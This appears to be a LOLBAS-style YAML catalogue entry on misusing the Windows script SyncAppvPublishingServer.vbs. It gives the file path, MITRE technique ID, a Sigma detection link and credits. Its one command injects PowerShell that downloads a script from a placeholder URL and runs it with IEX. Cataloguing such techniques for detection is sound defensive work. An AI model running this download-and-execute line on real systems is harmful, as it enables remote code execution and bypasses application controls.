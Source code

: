 ```yaml
---
Name: Syncappvpublishingserver.vbs
Description: Script used related to app-v and publishing server
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: SyncAppvPublishingServer.vbs "n;((New-Object Net.WebClient).DownloadString('http://some.url/script.ps1') | IEX"
    Description: Inject PowerShell script code with the provided arguments
    Usecase: Use Powershell host invoked from vbs script
    Category: Execute
    Privileges: User
    MitreID: T1216.002
    OperatingSystem: Windows 10, Windows 11
    Tags:
      - Execute: PowerShell
Full_Path:
  - Path: C:\Windows\System32\SyncAppvPublishingServer.vbs
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/683b63f8184b93c9564c4310d10c571cbe367e1e/rules/windows/process_creation/proc_creation_win_lolbin_syncappvpublishingserver_vbs_execute_psh.yml
Resources:
  - Link: https://twitter.com/monoxgas/status/895045566090010624
  - Link: https://twitter.com/subTee/status/855738126882316288
Acknowledgement:
  - Person: Nick Landers
    Handle: '@monoxgas'
  - Person: Casey Smith
    Handle: '@subtee'
---
```

